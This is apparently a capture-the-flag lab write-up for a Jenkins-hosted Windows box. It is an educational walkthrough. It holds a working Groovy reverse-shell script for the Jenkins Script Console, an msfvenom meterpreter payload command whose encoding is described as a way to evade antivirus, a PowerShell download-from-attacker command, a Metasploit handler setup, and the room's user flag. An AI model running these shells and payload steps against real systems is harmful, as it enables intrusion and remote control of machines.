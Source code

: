 You first need to download the Powershell script, and make it available for the server to download. You can do this by creating a http server with python: python3 -m http.server

I've had experience working with Jenkins before and know that the easiest way to get a reverse shell on it is to use the `Script Console`. You can find it under the `Manage Jenkins` menu.

Here all we have to do is google for a `groovy script`. Paste it here and change the ip and port to match our own then run the script.

```
Thread.start {
String host="10.0.0.1";
int port=53;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
}
```

![image](https://user-images.githubusercontent.com/43668197/140522032-d157d860-92f1-41e4-a4fb-d7493e934421.png)

![image](https://user-images.githubusercontent.com/43668197/140522405-28b37a00-a150-41e1-8b01-833149c2b537.png)

Alfred does not appear to have a Desktop so I tried Bruce and found the user.txt flag there.

**What is the user.txt flag? **

79007a09481963edf2e1321abd9ae2a0

##  Switching Shells

To make the privilege escalation easier, let's switch to a meterpreter shell using the following process.

Use msfvenom to create the a windows meterpreter reverse shell using the following payload

msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=[IP] LPORT=[PORT] -f exe -o [SHELL NAME].exe

This payload generates an encoded x86-64 reverse tcp meterpreter payload. Payloads are usually encoded to ensure that they are transmitted correctly, and also to evade anti-virus products. An anti-virus product may not recognise the payload and won't flag it as malicious.

After creating this payload, download it to the machine using the same method in the previous step:

powershell "(New-Object System.Net.WebClient).Downloadfile('http://<ip>:8000/shell-name.exe','shell-name.exe')"

Before running this program, ensure the handler is set up in metasploit:

use exploit/multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST your-ip set LPORT listening-port run

﻿This step uses the metasploit handler to receive the incoming connection from you reverse shell. Once this is running, enter this command to start the reverse shell
